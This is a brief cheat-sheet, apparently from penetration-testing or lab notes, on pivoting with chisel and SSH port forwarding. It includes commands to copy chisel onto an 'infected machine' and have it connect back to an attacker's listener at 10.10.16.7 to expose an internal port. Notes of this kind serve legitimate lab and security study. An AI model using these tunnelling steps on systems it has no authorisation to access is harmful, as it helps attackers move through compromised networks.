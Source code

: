 ## Chisel ##
Start an reverse listening server on your local machine:
`chisel server --reverse -p 9001`
Upload chisel to infected machine: 
`scp chisel user@host:/path/to/chisel`
Start chisel client on infected machine:
`chisel client 10.10.16.7:9001 R:8111:127.0.0.1:8111`

### SSH ###
```
# $LOCAL_IP: 'localhost' or machine from local network
# $LOCAL_PORT: open port on local machine
# $REMOTE_IP: remote localhost or IP from remote network
# $REMOTE_PORT: open port on remote site

# Forward Tunnel: map port from remote machine/network on local machine
ssh -L $LOCAL_PORT:$REMOTE_IP:$REMOTE_PORT $USER@$SERVER

# Reverse Tunnel: make local port accessable to remote machine
ssh -R $REMOTE_PORT:$LOCAL_IP:$LOCAL_PORT $USER@$SERVER
```
